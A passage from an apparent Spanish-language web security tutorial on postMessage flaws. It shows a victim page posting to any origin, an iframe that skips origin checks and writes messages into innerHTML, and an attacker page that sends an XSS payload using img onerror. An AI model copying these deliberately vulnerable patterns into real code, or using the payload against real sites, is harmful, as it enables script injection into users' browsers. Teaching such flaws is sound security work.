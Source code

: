 ### Falta de Validación de Origen

**Escenario Vulnerable:**

```html
<!-- Página víctima -->
<iframe src="https://vulnerable-iframe.com/content.html" id="frame"></iframe>
<input type="text" id="msgInput" value="<img src=x onerror=alert('XSS')>">
<button id="btnRun">Enviar</button>
<script>
document.getElementById("btnRun").addEventListener("click", () => {
  const iframe = document.getElementById('frame').contentWindow;
  const mensaje = { 
    tipo: 'htmlDinamico', 
    contenido: document.getElementById('msgInput').value 
  };
  // VULNERABILIDAD: targetOrigin = '*'
  iframe.postMessage(mensaje, '*');
});
</script>
```

**iframe Vulnerable:**

```html
<div id="messageContainer">Contenido inicial</div>
<script>
window.addEventListener("message", (event) => {
  // VULNERABILIDAD: Sin validación de origen
  // if (event.origin !== "https://victima.com") return;
  
  if (event.data && event.data.tipo === 'htmlDinamico') {
    // VULNERABILIDAD: Uso directo de innerHTML
    document.getElementById('messageContainer').innerHTML = event.data.contenido;
  }
});
</script>
```

**Explotación por Atacante:**

```html
<!-- https://atacante.com/exploit.html -->
<iframe src="https://vulnerable-iframe.com/content.html" id="target"></iframe>
<script>
window.onload = () => {
  const iframe = document.getElementById('target').contentWindow;
  const payload = "<img src=x onerror=alert('XSS por atacante.com')>";
  const mensaje = { tipo: 'htmlDinamico', contenido: payload };
  iframe.postMessage(mensaje, "https://vulnerable-iframe.com");
};
</script>
```

### Robo de Tokens a Través de postMessage
